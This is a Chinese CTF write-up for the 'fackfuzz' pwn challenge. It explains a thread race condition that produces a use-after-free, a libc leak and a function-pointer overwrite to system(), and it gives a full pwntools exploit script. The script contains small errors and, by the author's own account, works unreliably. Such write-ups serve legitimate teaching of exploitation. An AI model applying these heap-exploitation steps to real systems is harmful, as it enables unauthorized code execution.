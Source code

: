 ```yaml
---
layout: post
title: 安恒杯武汉大学邀请赛fackfuzz Writeup
categories: [CTF,Writeup]
description: 安恒杯武汉大学邀请赛AD模式的第二道pwn题，是一道多线程竞态条件的题目
keywords: fackfuzz, Writeup, 武汉大学邀请赛
---
```


# 安恒杯武汉大学邀请赛fackfuzz Writeup

[题目文件与exploit下载](https://github.com/A7um/CTF_exploits/tree/master/fackfuzz)

## 漏洞分析

这道题目是我的一个本科同学出的，也是CTF中比较少见的多线程竞态条件的题目，我觉得这个题目出的还是蛮好的，于是就写一下writeup。
运行一下可执行程序，可以看到此程序是一个驱动的fuzz程序

```
---->fack driver fuzzing<----
1. add a driver to fuzz
2. prepare fuzz data
3. start fuzzing
4. stop fuzzing
5. view driver list
6. exit
```

*	add a driver to fuzz 会分配一个形为
	{drivername readfuzzer writefuzzer ioctlfuzzer}的结构体
*	prepare fuzz data会分配一个结构体，包含start fuzzing时调用的函数所需参数
*	start fuzzing会启用三个fuzz的线程分别对驱动进行不断读、写、以及ioctl。
*	stop fuzzing会free掉在add driver和prepare data所分配的结构体。
*	view driver list会查看当前已添加的driver的driver name列表

程序的漏洞存在于函数**sub_401336**中

```
void __fastcall __noreturn freethread(void *a1)
{
  int idx; // [rsp+1Ch] [rbp-4h]@1
  idx = *(_DWORD *)a1;
  currentidx = idx;
  isstop[idx] = 1;
  free(ptr[idx]);
  puts("wait for fuzz thread done");
  sleep(3u);
  ptr[idx] = 0LL;
  if ( threadnum < 0 )
    threadnum = 0;
  free(data[idx]);
  data[idx] = 0LL;
  puts("stop this fuzz done!");
  pthread_exit(0LL);
}
```

此函数会在调用stop fuzzing的时候以pthread_create创建新进程的形式运行。由于free之后会有一个3秒的间隔。这个间隔原意是等待fuzz线程的结束，但是也导致了一个竞态条件的漏洞。

在调用stop fuzzing之后，ptr[idx]会被free掉，但是ptr[idx]在3秒内并没有置0，所以通过这个竞态条件来构造use after free漏洞。

## 漏洞利用

### 泄漏libc地址

当ptr[idx]被free掉之后，原本的driver name因为堆块被free会被覆盖成unsortbin的地址，如果主线程再次调用view driver list，即可拿到unsortbin的地址，这是一个libc的data段的地址，根据这个地址我们可以算出system函数地址。

### 劫持控制流

以下函数为stop fuzzing的处理函数,该函数通过比对driver name获取一个idx，最终这个idx会作为函数**sub_401336**中的idx。

```
__int64 stopfuzz()
{
  signed int i; // [rsp+Ch] [rbp-74h]@3
  char s2; // [rsp+10h] [rbp-70h]@1
  __int64 v3; // [rsp+78h] [rbp-8h]@1

  v3 = *MK_FP(__FS__, 40LL);
  puts("input the driver name to stop fuzzing:");
  readn((__int64)&s2, 0x68uLL);
  if ( (unsigned int)checkname(&s2) )
  {
    for ( i = 0; i <= 9; ++i )
    {
      if ( ptr[i] && !strcmp(ptr[i], &s2) )
      {
        stop(i);
        return *MK_FP(__FS__, 40LL) ^ v3;
      }
    }
    puts("error name");
  }
  else
  {
    puts("invalid name");
  }
  return *MK_FP(__FS__, 40LL) ^ v3;
}
```

但是，如果我们如果按照以下顺序进行调用

1. add a new driver
2. prepare fuzz data
3. prepare fuzz data
4. stop fuzzing
5. add a new driver
6. stop fuzzing
7. prepare fuzz data
8. start fuzzing

调用1 2 3会为ptr[0] data[0] data[1]分配内存

调用4会释放ptr[0]的所对应的块，且ptr[0]在3秒内并不会被置空。

调用5后，ptr[1]会被重新分配ptr[0]所指向的内存，也就是说ptr[0]与ptr[1]指向的是同一块内存，

接着调用6，ptr[0]与ptr[1]所指向的内存会被再次free，由于ptr[0]与ptr[1]指向同一块内容，所以根据stop fuzzing的处理函数的逻辑，根据驱动名匹配永远都回得到ptr[0],也就是说只有ptr[0]会被在3秒后置0，ptr[1]则会指向一个被free的内存块

之后调用7，将ptr[1]所指向的内存重新分配到字符串readdata中，通过对readdata进行修改即可控制ptr[1]所指向的带有函数指针的结构体的值。

最后调用8，由于函数指针已在调用7后被修改，所以调用8可以直接劫持控制流。

值得一提的是，由于我们拿到的shell是子线程的shell，所以我们无法直接与该shell进行交互，我们可以通过system("cat flag")拿到flag。

## exploit代码

```
from pwn import *;
from time import sleep;
port=8888
objname = "fackfuzz"
objpath = "./"+objname
io = process(objpath)
elf = ELF(objpath)

def readuntil(delim):
    data = io.recvuntil(delim);
    print data;
    return data;

def readlen(len):
    data = io.recv(len,1);
    return data;

def readall():
    data = io.recv(4096,1);
    print data;
    return data;

def write(data):
    sleep(0.05)
    io.send(str(data));
    
def writeline(data):
    sleep(0.05)
    io.sendline(str(data));

def padding(size):
    cf = "/bin/shcat/home/ctf/flag";
    paddata = "";
    for i in range(size):
        paddatax += cf[i%len(cf)];
    return paddata;

def newdriver(name):
    writeline(1);
    writeline(name)
    readall()
def prepare(readsize,readdata):
    writeline(2);
    writeline(readsize);
    writeline(readdata);
    writeline(2);
    writeline(1);
    writeline(1);
    writeline(1);
    writeline(1);
    readall()
def startfuzz(name):
    writeline(3);
    writeline(name);
    readall();
def stopfuzz(name):
    writeline(4);
    writeline(name);
    readall();
def viewdriver():
    writeline(5);
    print readuntil(":");
    return readuntil("\n")[:-1];

def attack(ip=0):
    global io
    if ip != 0:
        io = remote(ip,port)
    newdriver("/dev/haha1");
    prepare(10,"haha1")
    prepare(50,"echo haha;cat flag")
    stopfuzz("/dev/haha1");
    usortbin=viewdriver();
    usortbin=usortbin+(8-len(usortbin))*'\x00';
    usortbin=u64(usortbin);
    system=usortbin-0x378178
    print hex(system);
    newdriver("/dev/haha3");0x01e36010
    stopfuzz("/dev/haha3");
    sleep(4)
    
    payload="/dev/haha4\x00"
    payload+=(0x68-len(payload))*"A";
    payload+=p64(system)*3;
    prepare(0x88,payload);
    print viewdriver()
    
    startfuzz("/dev/haha4");
    sleep(3)
    readuntil("haha");
    flag=readuntil("\n")[:-1]#get flag
    return flag;

attack()
```

**此exploit理论上应该没问题，但是实际攻击的时候却不是很稳定，有时候得不到flag，我调试了很久也没有找到原因，还希望找到原因的同学联系我分享一下你的想法,感激不尽**
